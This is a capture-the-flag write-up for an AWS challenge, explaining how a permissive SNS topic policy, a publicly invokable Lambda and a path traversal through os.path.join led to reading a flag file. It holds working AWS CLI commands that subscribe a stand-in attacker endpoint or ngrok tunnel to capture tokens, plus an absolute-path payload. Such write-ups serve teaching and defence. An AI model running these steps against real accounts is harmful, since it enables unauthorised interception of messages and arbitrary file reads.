# Happy Birthday S3

```
Category: Cloud Security / Serverless
Difficulty: Medium
Author: Nir Ohfeld & Scott Piper
```

## Key Technologies

* Amazon SNS
* AWS Lambda
* API Gateway
* Resource-Based Policies
* Python
* Amazon S3-themed Birthday Invitation Application


Amazon S3 recently celebrated its 20th anniversary, and to mark the occasion, a birthday party website was created to distribute personalized invitations to attendees.

The application invited users to register with their email address and receive a customized birthday invitation. At first glance, the challenge appeared to be a simple registration workflow backed by AWS services. However, deeper investigation revealed several cloud security misconfigurations involving Amazon SNS and AWS Lambda.

Through a combination of resource enumeration, SNS subscription abuse, direct Lambda invocation, and a path traversal vulnerability within the card-generation service, it was possible to access files outside the intended application scope and ultimately retrieve the hidden present—the challenge flag.

The attack path demonstrated how seemingly minor cloud configuration issues can compound into a complete compromise when combined with application-layer vulnerabilities.

### Challenge Description

> Happy 20th Birthday, Amazon S3!
>
> To celebrate this milestone, someone set up a birthday party website. Sign up with your email to receive a personalized party invitation.
>
> Can you find the hidden present?

### Challenge Authors

* Nir Ohfeld
* Scott Piper

### Challenge Objective

Analyze the birthday invitation platform, identify weaknesses in the underlying AWS infrastructure and application logic, and retrieve the hidden flag from the backend environment.

### Key Technologies

* Amazon SNS
* AWS Lambda
* API Gateway
* Resource-Based Policies
* Python
* Amazon S3-themed Birthday Invitation Application

### Initial Foothold

The challenge began with access to a public registration website that generated birthday invitations. Investigation of the application's behavior, exposed AWS resources, and downloadable policy files eventually revealed a chain of cloud misconfigurations that led to arbitrary file disclosure within a Lambda execution environment.


## Summary

The challenge exposed multiple AWS resource misconfigurations that ultimately led to arbitrary file disclosure within a Lambda execution environment.

An overly permissive SNS Topic resource policy allowed external subscriptions, enabling attackers to receive invitation notifications containing valid registration tokens. The notification also disclosed the backend Lambda function name, which could be directly invoked due to a permissive Lambda resource policy.

Source code review of the Lambda function revealed a path traversal vulnerability in the template-loading logic. Because the application failed to validate user-controlled template paths, attackers could force the Lambda to read arbitrary files outside the intended template directory. By supplying an absolute path to the flag file, the Lambda returned the contents directly, resulting in flag disclosure.

The vulnerability chain relied on:

* SNS Topic resource policy misconfiguration
* Information disclosure through SNS notifications
* Cross-account Lambda invocation permissions
* Unsafe file path handling in the Lambda function
* Path traversal via absolute path injection

| Step | User / Access   | Technique Used                   | Result                                                                                                                |
| :--: | :-------------- | :------------------------------- | :-------------------------------------------------------------------------------------------------------------------- |
|   1  | Unauthenticated | **Application Reconnaissance**   | Identified invitation workflow backed by Amazon SNS and AWS Lambda.                                                   |
|   2  | Unauthenticated | **Information Disclosure**       | Error messages revealed the SNS topic name `BirthdayPartyInvites`.                                                    |
|   3  | Attacker        | **ARN Reconstruction**           | Combined Topic Name, Account ID, and Region to construct the SNS Topic ARN.                                           |
|   4  | Attacker        | **SNS Resource Policy Abuse**    | Successfully subscribed an attacker-controlled HTTPS endpoint to the SNS topic.                                       |
|   5  | Attacker        | **Notification Capture**         | Received invitation messages containing registration URLs and valid registration tokens.                              |
|   6  | Attacker        | **Backend Service Enumeration**  | Identified `GenerateBirthdayCard` as the Lambda function responsible for processing invitations.                      |
|   7  | Attacker        | **Lambda Resource Policy Abuse** | Directly invoked the Lambda function using its ARN despite lacking enumeration permissions.                           |
|   8  | Attacker        | **Function Behavior Analysis**   | Confirmed that the `template` parameter controlled file selection and that file contents were returned to the caller. |
|   9  | Attacker        | **Source Code Review**           | Discovered insecure path construction using `os.path.join("templates", f"{template}.txt")`.                           |
|  10  | Attacker        | **Path Traversal Exploitation**  | Supplied an absolute path (`/flag`) to bypass the intended templates directory.                                       |
|  11  | Attacker        | **Arbitrary File Read**          | Forced the Lambda function to read files from the execution environment.                                              |
|  12  | Attacker        | **Flag Retrieval**               | Retrieved the challenge flag directly from the Lambda filesystem.                                                     |


| Attribute                        | Technical Details                                                                                                   |
| :------------------------------- | :------------------------------------------------------------------------------------------------------------------ |
| **Primary Identifiers**          | SNS Topic: `BirthdayPartyInvites`, Lambda: `GenerateBirthdayCard`, AWS Account: `370540381921`, Region: `us-east-1` |
| **Critical Vulnerability**       | Path Traversal caused by unsafe user-controlled template paths in Lambda file-loading logic                         |
| **Supporting Misconfigurations** | Public SNS subscription permissions and cross-account Lambda invocation permissions                                 |
| **Offensive Action**             | Subscribe to SNS → Capture Token → Invoke Lambda → Abuse Template Path → Read Flag File                             |
| **Impact**                       | Arbitrary file disclosure from the Lambda execution environment, resulting in flag extraction                       |




### handler.py (Lambda Function) Review

The application ultimately relies on an AWS Lambda function named `GenerateBirthdayCard` to generate personalized birthday cards. During source code review of `handler.py`, the registration workflow was found to accept three user-controlled parameters:

* `token` – invitation token received through the SNS notification.
* `name` – attendee name displayed on the generated card.
* `template` – template identifier used to load the card content.





The Lambda reads a template file from disk and performs simple placeholder substitution before returning the rendered HTML. The relevant logic resembles:

```python
template_path = os.path.join("templates", f"{template}.txt")

with open(template_path, "r") as f:
    template_content = f.read()

card_content = template_content.replace("{{name}}", name)
```

The implementation assumes that the supplied `template` value references a valid file inside the `templates` directory. However, no validation or sanitization is performed on the user-controlled `template` parameter before it is passed to `os.path.join()`.

This creates a path traversal vulnerability. When an absolute path is supplied, Python's `os.path.join()` ignores the preceding directory components:

```python
os.path.join("templates", "/flag.txt")
```

Results in:

```text
/flag.txt
```

instead of:

```text
templates/flag.txt
```

As a result, an attacker can force the Lambda function to read arbitrary files outside of the intended `templates` directory. Since the file contents are returned within the generated card response, sensitive files accessible to the Lambda execution environment can be disclosed.

This insecure file access primitive became the key vulnerability used later in the challenge to retrieve the flag from the Lambda execution environment.


### Lambda (Execution Policy)

After identifying the `GenerateBirthdayCard` Lambda function, further analysis revealed that the function could be invoked directly using its full ARN:

```text
arn:aws:lambda:us-east-1:370540381921:function:GenerateBirthdayCard
```

Although the challenge account denied enumeration actions such as `lambda:ListFunctions`, the Lambda resource policy allowed cross-account invocation of the function.






Successful invocation confirmed that the attacker's AWS principal possessed the required permission to execute the function:

```bash
aws lambda invoke \
  --function-name arn:aws:lambda:us-east-1:370540381921:function:GenerateBirthdayCard \
  --cli-binary-format raw-in-base64-out \
  --payload '{"token":"<token>","template":"default_balloon","name":"0x0z0n"}' \
  response.json
```

The response demonstrated that the Lambda executed successfully and returned generated card content:

```json
{
  "StatusCode": 200,
  "ExecutedVersion": "$LATEST"
}
```

This behavior indicates a resource-based policy permitting invocation from external AWS accounts. While enumeration privileges were restricted, direct invocation using the known ARN remained possible.

From an attacker's perspective, this significantly expanded the impact of the path traversal vulnerability identified in `handler.py`. Instead of interacting solely through the public web application, arbitrary payloads could be supplied directly to the Lambda function, bypassing any client-side controls and allowing unrestricted testing of the vulnerable `template` parameter.

The combination of:

1. A publicly invokable Lambda function.
2. User-controlled template selection.
3. Insecure file path handling.



provided a direct path to exploit the vulnerable code and access files within the Lambda execution environment.








### Lambda (Resource Policy)

The next step was understanding how direct invocation of the `GenerateBirthdayCard` Lambda function was possible despite lacking permissions to enumerate Lambda resources.

Attempts to list Lambda functions failed with an access denied error:

```text id="v7mzye"
AccessDeniedException:
User is not authorized to perform: lambda:ListFunctions
```

However, once the function ARN was identified, the Lambda could be invoked successfully:

```bash id="s2lb6z"
aws lambda invoke \
  --function-name arn:aws:lambda:us-east-1:370540381921:function:GenerateBirthdayCard \
  --cli-binary-format raw-in-base64-out \
  --payload '{"token":"<token>","template":"default_balloon","name":"0x0z0n"}' \
  response.json
```

The successful execution indicated that the Lambda function exposed a resource-based policy granting invocation permissions to principals outside of the owning AWS account.

Conceptually, the policy resembled:

```json id="tb6o9q"
{
  "Effect": "Allow",
  "Principal": "*",
  "Action": "lambda:InvokeFunction",
  "Resource": "arn:aws:lambda:us-east-1:370540381921:function:GenerateBirthdayCard"
}
```

or an equivalent configuration permitting invocation from challenge participants.

Unlike identity-based IAM policies, Lambda resource policies are attached directly to the function and determine who can invoke it. As a result, even though enumeration actions were restricted, any principal satisfying the resource policy conditions could execute the function if the ARN was known.

This misconfiguration was critical because it exposed the vulnerable Lambda function directly to attackers. Once the ARN was recovered through application reconnaissance, the function could be interacted with independently of the web application, enabling direct testing of the vulnerable `template` parameter and ultimately facilitating arbitrary file disclosure through path traversal.


### SNS (Resource Policy)

During reconnaissance, the application was found to use an AWS SNS topic to distribute birthday party invitations. Error messages and application behavior leaked the SNS topic name:

```text id="h1f4xe"
BirthdayPartyInvites
```

Using the discovered AWS Account ID and region, the full SNS Topic ARN could be constructed:

```text id="pwq0je"
arn:aws:sns:us-east-1:370540381921:BirthdayPartyInvites
```

Attempts to interact with the topic revealed that external principals were permitted to subscribe to it. By creating a subscription pointing to an attacker-controlled HTTPS endpoint, notifications generated by the application could be received directly.

For example:

```bash id="nb0t2j"
aws sns subscribe \
  --topic-arn arn:aws:sns:us-east-1:370540381921:BirthdayPartyInvites \
  --protocol https \
  --notification-endpoint https://attacker-endpoint.example
```

After confirming the subscription, SNS notifications generated by the application were delivered to the attacker-controlled endpoint. One such notification contained a registration token and registration URL:

```json id="4b9r5s"
{
  "message": "You're invited to the S3 Birthday Party!",
  "registration_url": "...",
  "token": "1780735491:ab49b289027f3426"
}
```

This behavior indicates that the SNS topic exposed a resource-based policy allowing external subscriptions. Conceptually, the policy resembled:

```json id="w7gm2q"
{
  "Effect": "Allow",
  "Principal": "*",
  "Action": [
    "SNS:Subscribe",
    "SNS:Receive"
  ],
  "Resource": "arn:aws:sns:us-east-1:370540381921:BirthdayPartyInvites"
}
```

or an equivalent configuration granting challenge participants the ability to subscribe to the topic.

The impact of this misconfiguration was significant. Any user capable of subscribing to the SNS topic could receive messages intended for application users. In this case, the leaked notification disclosed a valid registration token, which was later used to interact with the birthday card generation workflow and ultimately reach the vulnerable Lambda function.




This SNS resource policy therefore served as the initial entry point in the attack chain, enabling access to sensitive invitation data that should only have been delivered to legitimate recipients.


## Data Exfiltration

### SNS Topic Name

The first step in the attack chain was identifying the SNS topic used by the application to distribute birthday party invitations.

During interaction with the application, verbose error messages disclosed internal AWS resource information. One of these messages revealed the SNS topic name:

```text
BirthdayPartyInvites
```

Although only the topic name was exposed, it provided valuable information about the backend architecture. The application appeared to generate invitation messages and distribute them through Amazon SNS before users completed registration.

Using the leaked topic name along with the known AWS account ID and region, the full SNS Topic ARN could be reconstructed:

```text
arn:aws:sns:us-east-1:370540381921:BirthdayPartyInvites
```

Having the complete ARN enabled direct interaction with the SNS topic and allowed further investigation of its permissions. This discovery ultimately led to the identification of an overly permissive SNS resource policy that allowed external subscriptions.

The exposed SNS topic became the initial foothold for data exfiltration, as it provided a mechanism to receive invitation messages intended for application users.


### Account ID

After identifying the SNS topic name, the next objective was to determine the AWS account that owned the resource.

Application responses and SNS interactions exposed the AWS Account ID associated with the backend infrastructure:

```text
370540381921
```

This value is a critical component of AWS resource ARNs and was later used to reconstruct the full SNS Topic ARN as well as the Lambda function ARN.


### Region

The application and AWS resources were hosted in the following AWS region:

```text
us-east-1
```

The region information was obtained from AWS service endpoints and resource identifiers observed throughout the challenge.



Combining the Topic Name, Account ID, and Region allowed reconstruction of the complete SNS Topic ARN:

```text
arn:aws:sns:us-east-1:370540381921:BirthdayPartyInvites
```

This ARN was subsequently used to interact directly with the SNS topic and investigate its permissions.

### Capturing SNS Notifications

To receive messages published to the SNS topic, an HTTPS endpoint was required because Amazon SNS only delivers notifications to publicly reachable endpoints. Since no public infrastructure was available, a local Flask application was created and exposed to the internet using Ngrok.

The Flask application implemented the SNS webhook workflow, handling:

* `SubscriptionConfirmation` messages to automatically confirm subscriptions.
* `Notification` messages to capture and process invitation data.
* `UnsubscribeConfirmation` messages.

The application was configured to listen on port 80:

```text
http://localhost:80
```

Ngrok was then used to expose the local service through a publicly accessible HTTPS URL:

```bash
ngrok http 8080
```



This generated an HTTPS endpoint similar to:

```text
https://<random-subdomain>.ngrok-free.app
```



The SNS topic subscription was configured to use the exposed webhook endpoint:

```bash
aws sns subscribe \
  --topic-arn arn:aws:sns:us-east-1:370540381921:BirthdayPartyInvites \
  --protocol https \
  --notification-endpoint https://<ngrok-subdomain>.ngrok-free.app/test@cloudsecuritychampionship.com
```



Once the subscription request was submitted, SNS sent a `SubscriptionConfirmation` message to the webhook. The Flask application automatically visited the supplied `SubscribeURL`, completing the registration process.




After successful confirmation, the endpoint began receiving SNS notifications directly from the challenge infrastructure. These notifications contained invitation details, including registration URLs and valid registration tokens, which were later used to interact with the backend Lambda function.

Using Ngrok allowed a locally hosted listener to act as a publicly reachable SNS subscriber, making it possible to capture and analyze messages intended for legitimate recipients.


### Subscribing to the SNS Topic

After reconstructing the SNS Topic ARN, the next step was determining whether external principals could interact with the topic.

Using the AWS CLI, a subscription request was sent to the discovered SNS topic with an attacker-controlled HTTPS endpoint:

```bash
aws sns subscribe \
  --topic-arn arn:aws:sns:us-east-1:370540381921:BirthdayPartyInvites \
  --protocol https \
  --notification-endpoint https://<attacker-endpoint>
```

The subscription was accepted, confirming that the SNS topic's resource policy allowed external subscriptions.

To receive notifications, an HTTPS listener was configured using a publicly accessible endpoint. Once the subscription was confirmed, SNS began forwarding messages published to the topic.



Shortly afterward, an invitation notification was received containing sensitive registration information:



```json
{
  "message": "You're invited to the S3 Birthday Party!",
  "action": "Complete your registration to get your personalized birthday card.",
  "registration_url": "https://happybirthday.cloudsecuritychampionship.com/register.html?token=XXXXXXXXXXX:XXXXXXXXXXXXXXXXXX",
  "token": "1780735491:ab49b289027f3426",
  "expires_in": "1 hour",
  "generated_by": "GenerateBirthdayCard"
}
```



The notification disclosed a valid registration token as well as the registration URL used by the application. This information was intended only for legitimate invitees but became accessible due to the overly permissive SNS resource policy.

By subscribing directly to the SNS topic, it was possible to exfiltrate invitation data without interacting with the intended recipient workflow. The recovered token later served as the entry point for interacting with the birthday card generation process and investigating the backend Lambda function.


### Invoking the Lambda Function

After obtaining a valid registration token from the SNS notification, attention shifted to the backend Lambda function responsible for generating birthday cards.

The SNS message contained a field identifying the service that generated the invitation:

```json id="n5m4ph"
{
  "generated_by": "GenerateBirthdayCard"
}
```

Further investigation revealed that the Lambda function could be invoked directly using its full ARN:

```text id="g6t3zy"
arn:aws:lambda:us-east-1:370540381921:function:GenerateBirthdayCard
```

Although Lambda enumeration was restricted, direct invocation remained possible once the ARN was known. A test invocation was performed using the registration token captured from SNS:

```bash id="fh1z3m"
aws lambda invoke \
  --function-name arn:aws:lambda:us-east-1:370540381921:function:GenerateBirthdayCard \
  --cli-binary-format raw-in-base64-out \
  --payload '{
    "token":"1780735491:ab49b289027f3426",
    "template":"default_balloon",
    "name":"0x0z0n"
  }' \
  response.json
```

The Lambda executed successfully and returned a valid response:

```json id="o7v2ns"
{
  "StatusCode": 200,
  "ExecutedVersion": "$LATEST"
}
```

Inspecting the output file revealed that the function generated and returned the rendered birthday card content:

```json id="u2k8tr"
{
  "status": "success",
  "data": {
    "card_content": "<!DOCTYPE html>..."
  }
}
```

This confirmed several important findings:

* The registration token obtained from SNS was valid.
* The Lambda function could be invoked directly without using the web application.
* User-supplied values for `token`, `template`, and `name` were processed by the function.
* The Lambda returned rendered template content directly to the caller.

Direct invocation provided a much faster method for testing the application's behavior and became the primary interface for further vulnerability research. Subsequent testing focused on the user-controlled `template` parameter, which ultimately led to arbitrary file disclosure through path traversal.

```
user@monthly-challenge:~$ aws lambda invoke \
  --function-name arn:aws:lambda:us-east-1:370540381921:function:GenerateBirthdayCard \
  --cli-binary-format raw-in-base64-out \
  --payload '{"token":"1780735491:ab49b289027f3426","template":"default_balloon","name":"0x0z0n"}' \
  default_template.json
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
user@monthly-challenge:~$ cat default_template.json
{"status": "success", "data": {"card_content": "<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n<meta charset=\"UTF-8\">\n<meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\">\n<title>Happy Birthday Card</title>\n<style>\n  * { margin: 0; padding: 0; box-sizing: border-box; }\n  body {\n    min-height: 100vh;\n    display: flex;\n    align-items: center;\n    justify-content: center;\n    background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);\n    font-family: 'Georgia', serif;\n  }\n  .card {\n    background: #fff;\n    border-radius: 24px;\n    padding: 60px 48px;\n    max-width: 520px;\n    width: 90%;\n    text-align: center;\n    box-shadow: 0 20px 60px rgba(0,0,0,0.15);\n    position: relative;\n    overflow: hidden;\n  }\n  .card::before {\n    content: '';\n    position: absolute;\n    top: 0; left: 0; right: 0;\n    height: 6px;\n    background: linear-gradient(90deg, #ff6b6b, #ffd93d, #6bcb77, #4d96ff, #ff6b6b);\n  }\n  .balloons {\n    font-size: 48px;\n    margin-bottom: 16px;\n    line-height: 1;\n  }\n  h1 {\n    font-size: 36px;\n    color: #2d3436;\n    margin-bottom: 8px;\n    font-weight: 700;\n  }\n  .subtitle {\n    font-size: 18px;\n    color: #636e72;\n    margin-bottom: 32px;\n    font-style: italic;\n  }\n  .name {\n    font-size: 42px;\n    color: #6c5ce7;\n    font-weight: 700;\n    margin-bottom: 24px;\n    word-break: break-word;\n  }\n  .message {\n    font-size: 16px;\n    color: #636e72;\n    line-height: 1.6;\n  }\n  .s3-badge {\n    margin-top: 32px;\n    padding: 12px 24px;\n    background: #f0f0f0;\n    border-radius: 12px;\n    display: inline-block;\n    font-size: 13px;\n    color: #888;\n  }\n</style>\n</head>\n<body>\n<div class=\"card\">\n  <div class=\"balloons\">&#127880; &#127881; &#127882;</div>\n  <h1>Happy Birthday!</h1>\n  <div class=\"subtitle\">A celebration 20 years in the making</div>\n  <div class=\"name\">0x0z0n</div>\n  <div class=\"message\">\n    Wishing you a day filled with joy, laughter, and plenty of cloud storage!\n    Here's to 20 more years of reliable, scalable, and durable object storage.\n  </div>\n  <div class=\"s3-badge\">Amazon S3 - 20th Anniversary</div>\n</div>\n</body>\n</html>\n"}}user@monthly-challenge:~$ 
user@monthly-challenge:~$ 
user@monthly-challenge:~$ aws lambda invoke \
  --function-name arn:aws:lambda:us-east-1:370540381921:function:GenerateBirthdayCard \
  --cli-binary-format raw-in-base64-out \
  --payload '{"token":"1780735491:ab49b289027f3426","template":"/flag","name":"0x0z0n"}' \
  flag.json
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
user@monthly-challenge:~$ cat flag.json
{"status": "success", "data": {"card_content": "WIZ_CTF{s3_turns_20_and_the_party_is_XXXXXXXXXXXXXXXXXXXXX}"}}user@monthly-challenge:~$ 
```

